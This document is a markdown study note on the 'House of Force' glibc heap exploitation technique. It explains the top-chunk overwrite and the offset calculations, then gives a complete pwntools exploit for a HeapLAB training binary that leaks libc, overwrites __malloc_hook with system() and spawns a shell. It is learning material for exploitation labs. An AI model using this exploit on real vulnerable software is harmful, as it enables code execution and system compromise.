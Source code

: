 ```yaml
---
title: "House of Force"
tags: [Binary Exploitation, Heap]
excerpt: "House of Force"
layout: single
classes: wide
--- 
```


## Requirements
* Control of top chunk size, usually through heap overflow
* Full control of size of allocated chunks

## Process
### Arbitrary Write Primitive
* Overwrite size of top chunk to `0xffffffffffffffff`
* Allocate chunk with size of `offset`, using `malloc()`
    * If `target < top_chunk`: `offset = top_chunk - target + allocated_chunks_size`, and offset is negative
    * If `target > top_chunk`: `offset = target - top_chunk - allocated_chunks_size`
* Allocate new chunk, this chunk will be created at `target`

### Gaining RCE using ret2libc
_This requires libc version to be known_
* Overwrite `__malloc_hook` using write primitive with `system()`
* Call `malloc(/bin/sh)`

## Example: HeapLAB House of Force
```python
from pwn import *

config = {
    "elf" : "./house_of_force",
    "libc" : "./libc-2.28.so",
    "ld" : "./ld.so.2",
}

def malloc(size, data):
    sla('>', '1')
    sla('size:', str(size))
    sla('data:', data)

def exploit(p):
    # Get addresses
    ru('puts() @ ')
    puts = int(p.recvline().strip(), 16)
    ru('heap @ ')
    heap_addr = int(p.recvline().strip(), 16)
    
    # Calculate libc_base, etc...
    libc.address = puts - libc.symbols['puts']
    malloc_hook = libc.symbols['__malloc_hook']
    system = libc.symbols['system']
    binsh = libc.search('/bin/sh\x00').next()

    lg('heap_addr: ' + hex(heap_addr))
    lg('malloc_hook: ' + hex(malloc_hook))
    lg('system: ' + hex(system))
    lg('binsh: ' + hex(binsh))
    
    # House of Force: Overwrite top_chunk size
    malloc(24, '/bin/sh\x00'.ljust(24, "\x00") + p64(0xffffffffffffffff))
    
    """
    # Overwrite target with "OVERWRIT"
    target = elf.symbols['target']
    top_chunk = heap_addr + 0x20
    offset = top_chunk - target + 32
    ru('>')
    malloc(-offset, p64(0xdeadbeef))
    malloc(16, 'OVERWRIT')
    sla('>', '2')
    """

    # Pop shell with ret2libc by overwriting __malloc_hook with system() 
    top_chunk = heap_addr + 0x20
    offset = malloc_hook - top_chunk - 32
    ru('>')
    malloc(offset, "Y") 
    malloc(24, p64(system))
    sla('>', '1')
    sla('size:', str(binsh))

    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])
    libc = ELF(config["libc"])

    p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
    pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```
